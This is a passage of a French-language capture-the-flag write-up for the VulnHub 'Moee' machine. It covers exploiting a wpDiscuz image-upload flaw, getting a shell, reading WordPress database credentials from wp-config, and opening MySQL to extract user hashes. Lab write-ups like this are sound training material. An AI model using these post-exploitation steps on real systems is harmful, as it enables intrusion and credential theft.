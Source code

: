 L'upload ne se fait pas depuis le dashboard mais depuis la page d'un des articles où il faut remarquer que l'utilisation d'un compte a rajouté un petit bouton dédié à l'upload d'image :  

![Moee VulnHub CTF wpDiscuz upload vulnerability](https://raw.githubusercontent.com/devl00p/blog/master/images/vulnhub/mooe.png)

el8 gr3p 5ki11z
---------------

Une fois un ReverseSSH mis en place je récupère le premier flag :  

```plain
www-data@moee:/var/www/public_html$ cat flag1.txt  
Congrats, finally you exploited the damn vulnerable plugin and got the initial Shell.
Now your next task is to look for clue which lend you further and it isn't far from your home directory.  

- GoodLuck
```

Le home de *www-data* est bien sûr */var/www/*. J'ai fouillé sous */var* mais n'ait rien trouvé au début.  

Je commence par les identifiants pour la base de données :  

```php
/** The name of the database for WordPress */ 
define( 'DB_NAME', 'wp_database' ); 

/** MySQL database username */ 
define( 'DB_USER', 'user' ); 

/** MySQL database password */ 
define( 'DB_PASSWORD', 'userpasswd' ); 

/** MySQL hostname */ 
define( 'DB_HOST', 'localhost' );
```

Je peux extraire les hashs des utilisateurs Wordpress :  

```plain
www-data@moee:/var/www/public_html$ mysql -u user -p wp_database 
Enter password:  
Reading table information for completion of table and column names 
You can turn off this feature to get a quicker startup with -A 

Welcome to the MySQL monitor.  Commands end with ; or \g. 
Your MySQL connection id is 113448 
Server version: 5.5.62-0+deb8u1 (Debian) 

Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved. 

Oracle is a registered trademark of Oracle Corporation and/or its 
affiliates. Other names may be trademarks of their respective 
owners. 

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement. 

mysql> show databases; 
+--------------------+ 
| Database           | 
+--------------------+ 
| information_schema | 
| mydatabase         | 
| wp_database        | 
+--------------------+ 
3 rows in set (0.00 sec) 

```